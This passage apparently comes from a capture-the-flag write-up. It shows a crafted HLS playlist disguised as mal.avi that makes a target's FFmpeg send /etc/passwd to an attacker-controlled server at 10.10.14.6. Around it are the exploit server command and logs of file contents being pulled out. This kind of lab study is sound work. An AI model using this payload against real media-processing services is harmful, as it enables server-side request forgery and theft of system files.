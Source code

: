     backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    10.10.11.157 - - [28/Jul/2022 11:52:17] code 400, message Bad request syntax ('GET /x?list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin HTTP/1.1')
    

I couldn’t find a nice way to handle that, and eventually moved on.

#### FFmpeg-HLS-SSRF

[This project](https://github.com/0xcoyote/FFmpeg-HLS-SSRF) will download
files using some of the same logic I was looking for on my own. I’ll edit
`mal.avi` to contain the URL the project wants:

    
    
    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    http://10.10.14.6/initial.m3u?filename=/etc/passwd
    #EXT-X-ENDLIST
    

Now I start the server, and upload the file. It dumps a lot of junk to the
screen and eventually crashes:

    
    
    oxdf@hacky$ python /opt/FFmpeg-HLS-SSRF/server.py --port 80 --external-addr 10.10.14.6
    
    2022-07-28 12:23:02,423 INFO ('10.10.11.157', 50632): client connected
    2022-07-28 12:23:02,424 WARNING ('10.10.11.157', 50632): request data b'GET /initial.m3u?filename=/etc/passwd HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6\r\nIcy-MetaData: 1\r\n\r\n'                                        2022-07-28 12:23:02,424 INFO ('10.10.11.157', 50632): got request b'/initial.m3u?filename=/etc/passwd'
    
    b'HTTP/1.0 200 OK\r\nContent-Length: 162\r\n\r\n#EXTM3U\n#EXT-X-MEDIA-SEQUENCE:0\n#EXTINF:1.0\n\nhttp://10.10.14.6:80/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true\n\n\n#EXT-X-ENDLIST\n'                                                    
    2022-07-28 12:23:02,602 INFO ('10.10.11.157', 50634): client connected
    2022-07-28 12:23:02,603 WARNING ('10.10.11.157', 50634): request data b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&first_time=true HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1
    \r\n\r\n'
    ...[snip]...
    2022-07-28 12:23:27,882 INFO ('10.10.11.157', 50916): got request b'/save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data='
    2022-07-28 12:23:27,883 ERROR ('10.10.11.157', 50916): exception during processing request, data = b'GET /save_data.m3u?filename=/etc/passwd&exploit_id=2956d69c4ec060d6&offset=1885&num_retry=10&file_data= HTTP/1.1\r\nUser-Agent: Lavf/56.4.101\r\nAccept: */*\r\nConnection: close\r\nHost: 10.10.14.6:80\r\nIcy-MetaData: 1\r\n\r\n'
    Traceback (most recent call last):
      File "/opt/FFmpeg-HLS-SSRF/server.py", line 196, in handle_client
        response = self._handlers[requested_file](params, file_data)
      File "/opt/FFmpeg-HLS-SSRF/server.py", line 105, in save_data
        raise RuntimeError('num_retry > 10')
    RuntimeError: num_retry > 10
    